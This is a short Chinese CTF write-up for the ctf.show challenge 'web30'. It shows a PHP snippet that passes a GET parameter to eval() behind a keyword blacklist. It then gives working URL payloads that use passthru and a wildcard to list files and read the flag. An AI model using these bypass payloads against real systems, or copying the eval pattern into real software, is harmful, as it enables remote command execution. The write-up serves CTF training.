


# web30

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

目前来看，是拦截了`stystem`和`flag`关键词，但是php中不止有`system`函数可以执行命令

- system
- passthru
- exec
- pcntl_exec
- shell_exec
- popen / proc_open
- 反引号\`\`

那么直接使用`passthru`即可，而且`passthru`函数自带输出结果的特性

```plaintext
https://84bc19c2-1327-4bab-8522-6e67439e685c.challenge.ctf.show/?c=passthru("ls -lh");
```



那么直接读取flag即可

```plaintext
https://84bc19c2-1327-4bab-8522-6e67439e685c.challenge.ctf.show/?c=passthru("cat /var/www/html/fl*");
```


